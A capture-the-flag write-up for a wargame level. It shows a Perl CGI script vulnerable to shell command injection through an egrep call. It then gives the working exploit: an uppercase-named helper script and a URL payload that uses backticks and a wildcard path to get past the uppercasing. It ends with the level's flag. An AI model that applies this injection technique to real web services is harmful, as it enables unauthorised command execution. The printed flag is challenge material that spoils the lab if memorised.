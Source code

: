 # level12

`ls`
![[ls.png]]

cat `level12.pl`
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
> We can see there is a command execution (the `egrep`) that we can try to exploit. Problem is it will turn the letters uppercase and remove everything after the first space

We will first create a script with an uppercase name (here /tmp/GETFLAG)
```sh
#!/bin/sh
getflag > /tmp/flag
```

We now launch `perl level12.pl` and go to `http://localhost:14646/?x=%22%3B%60/*/GETFLAG%60%3B` (or ``http://localhost:14646/?x=";`/*/GETFLAG`;``)

`cat /tmp/flag`
![[flag.png]]
### Flag = g1qKMiRpXf53AWhDaU7FEkczr
